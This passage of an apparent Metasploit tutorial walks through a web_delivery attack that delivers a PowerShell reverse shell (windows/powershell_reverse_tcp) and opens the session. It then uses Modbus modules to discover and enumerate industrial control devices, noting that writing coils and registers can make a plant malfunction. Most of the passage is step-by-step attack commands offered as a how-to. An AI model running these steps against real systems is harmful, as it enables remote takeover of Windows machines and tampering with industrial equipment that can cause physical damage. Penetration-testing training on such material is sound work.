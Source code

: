     msf6 > set LPORT 4444

Then we need to set the URIPATH. This sets the URI that the web server will host and the Powershell command will connect back to.

    msf6 > set URIPATH example

By default, the web delivery exploit in Metasploit uses Python scripts. To use the Windows-based Powershell option, we need to set the target to 2.

    msf6 > set target 2

With the target set 2, Metasploit will create a PowerShell script rather than a Python script when we are ready to exploit.

    msf6 > set payload windows/powershell_reverse_tcp
    
    msf6 > show options
    
    msf6 > exploit
    
    msf6 > sessions -l
    
    msf6 > sessions -i 1

Where 1 is the ID of the session.

PS C: \Users > Get-Process

## **IoT Exploitation with Metasploit**

SCADA/ICS system use entirely different protocols from traditional IT system that utilize TCP/IP. These protocols are varied and were usually developed to communicate over serial media (RS485).

Metasploit has ported a number of auxiliary and exploit modules for SCADA/ICS.

**Search for Modbus Modules**

    msf6 > search modbus

Let's load a module with a singular reconnaissance capability called modbusdetect. It is capable of detecting whether a site is running the modbus protocol.

    msf6 > use auxiliary/scanner/scada/modbusdetect

This module only needs the user to set the IP address of the target as RHOST. The default port for modbus is 502, so the RPORT is set to 502 by default.

Modbus allows for up to 254 connected devices. To manipulate or communicate with any modbus device, we must have UNIT ID, not dissimilar to using IP addresses in TCP/IP.

    msf6 > use auxiliary/scanner/scada/modbus_findunitid
    
    msf6 > SET RHOST IP ADDRESS
    
    msf6 > exploit

These UNIT ID's are critical for reading and writing their data.

The next modbus module is modbusclient. It enables us to read and write the data from both the coils and registers on these SCADA systems. Reading the data can lead to information leakage, but writing the data is even more nefarious as it could change the various setting within the plant and cause a malfunction.

